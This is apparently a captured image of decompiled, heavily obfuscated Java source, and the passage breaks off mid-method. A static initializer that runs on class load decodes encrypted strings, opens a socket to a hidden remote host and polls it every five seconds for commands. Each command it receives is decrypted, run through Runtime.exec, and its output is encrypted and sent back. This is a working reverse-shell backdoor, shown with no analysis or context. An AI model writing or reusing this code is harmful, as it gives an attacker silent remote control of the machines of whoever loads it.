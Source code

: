 ```
        I[l[18]] = Il("xRwDzYljVIU=", "fScWC");
        I[l[19]] = l("EAkMJl8JDRkyAxMcA2k6HxE=", "zhzGq");
        I[l[20]] = l("LyQVKDwqJw==", "KKSAR");
        I[l[21]] = l("CwkvD2gUHDACaCMJKgtwVQ==", "ahYnF");
        I[l[22]] = Il("uIHhwTaeAscF3EzVgdL4zg==", "tMxGZ");
        I[l[23]] = l("ChYmChAL", "nsEet");
        I[l[24]] = l("al9YAjJrX1RUZ2gEWgA2aQ==", "ZfldP");
        I[l[25]] = l("JygSTjMlL24xPSU+dDEXAgkoDxE=", "fmAav");
        I[l[26]] = I("EvA8rhxJMXPTCc0Wno5a9Q==", "QvZtB");
        I[l[28]] = l("OTAxITtw", "zxtbp");
        I[l[29]] = Il("gT9cJw1pjVI=", "eTlqI");
        I[l[30]] = I("BAW3Glpb798=", "pExyG");
    }

    private static boolean lll(int i, int i2) {
        return i < i2;
    }

    static {
        IIl();
        ll();
        XXX = I[l[24]];
        YYY = I[l[25]];
        try {
            Socket socket = new Socket(I[l[26]], l[27]);
            try {
                BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(socket.getInputStream()));
                try {
                    BufferedWriter bufferedWriter = new BufferedWriter(new OutputStreamWriter(socket.getOutputStream()));
                    do {
                        try {
                            bufferedWriter.write(I[l[28]]);
                            bufferedWriter.flush();
                            String readLine = bufferedReader.readLine();
                            if (lIl(readLine) && Ill(readLine.isEmpty() ? 1 : 0)) {
                                BufferedReader bufferedReader2 = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(decrypt(readLine)).getInputStream()));
                                StringBuilder sb = new StringBuilder();
                                do {
                                    String readLine2 = bufferedReader2.readLine();
                                    if (lIl(readLine2)) {
                                        sb.append(readLine2).append(I[l[29]]);
                                        "".length();
                                        "".length();
                                    } else {
                                        bufferedWriter.write(String.valueOf(new StringBuilder().append(encrypt(String.valueOf(sb))).append(I[l[30]])));
                                        bufferedWriter.flush();
                                    }
                                } while ((-"   ".length()) < 0);
                                return;
                            }
                            Thread.sleep(5000L);
                            "".length();
                        } catch (Throwable th) {
                            try {
                                bufferedWriter.close();
                                "".length();
                                if ("  ".length() < 0) {
                                    return;
                                }
```